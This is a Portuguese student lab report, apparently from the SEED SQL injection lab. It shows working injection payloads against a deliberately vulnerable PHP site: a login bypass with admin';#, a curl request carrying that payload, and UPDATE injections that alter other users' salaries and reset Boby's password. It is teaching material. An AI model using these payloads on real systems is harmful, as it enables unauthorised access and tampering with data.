

# Trabalho Realizado na Semana #8

## Task 1

- Utilizamos o mysql para interagir com a base de dados como root. De seguida utilizamos o show tables para ver as tabelas da base de dados.
- E corremos o comando SQL mostrado em baixo para ver os dados da alice.


## Task 2  

### 2.1 

- Analisando o código PHP em unsafe_home.php, bastaria inserir um pedaço de comando SQL no campo correspondente ao $input_uname, de modo a aceder à informação pretendida.


- No nosso caso, adicionamos um #, ficando o código que se segue (que verifica a password) comentado.
- WHERE name= ’admin';#


### 2.2

- Recorremos à mesma estratégia usada na alínea anterior.
- O comando executado foi: curl 'www.seed-server.com/unsafe_home.php?username=admin%27%3B%23&Password='.
- Verifica-se, pela seguinte imagem, que foi obtida a informação dos funcionários.


### 2.3 

- Existe, de facto, uma medida que impede a execução de 2 comandos SQL em um ataque. Para se executar vários comandos SQL (agrupados), o comando multi_querie() precisa de estar presente.
- As funções de querie, por norma, não ativam uma flag de conexão necessária para ativar multi queries no servidor. 

## Task 3

### 3.1

- Analsiando o código PHP em unsafe_edit_backend.php, não há novamente qualquer proteçao contra sqli, sendo possível inserir código SQL nas variáveis do formulário.

- Assim, se colocarmos ',salary=1000000 WHERE name='Alice';# no nickname

- O código executado será 
```sql
UPDATE credential SET
nickname='',salary=1000000 WHERE name='Alice';#’...
```
Como tal, o salário é alterado e o código restante é comentado.


### 3.2
- Para alterar o salário de oura pessoa, basta mudar o nome 'Alice' filtrado com o where para o da pessoa que se pretende mudar o salário. 
- Assim, passamos a colocar ',salary=1 WHERE name='Boby';#


- O código executado será 
```sql
UPDATE credential SET
nickname='',salary=1 WHERE name='Boby';#’...
```


### 3.3
- É guardada o hash do input da password. Como tal, não se pode colocar código neste parâmetro.
- No entanto, dado que o número de telemóvel aparece depois da password, se colocarmos a password desejada no parâmetro password e injetarmos código sql no número de telemóvel de forma a mudar o filtro para escolher o utilizador que é alterado, conseguimos o desejado.
- Para isto, colocamos 'WHERE name='Boby';# no número de telemóvel.

- Assim, o código executádo será

```sql
UPDATE credential SET
nickname='',
email='',
address='',
Password=sha1($input_pwd);,
PhoneNumber=''WHERE name='Boby';#'WHERE ID=$id;
```
- Como tal, a password do Boby é alterada para a fornecida no parâmetro password.

- Conseguimos então fazer login na conta do Boby com o seu username conhecido e a password que escolhemos.


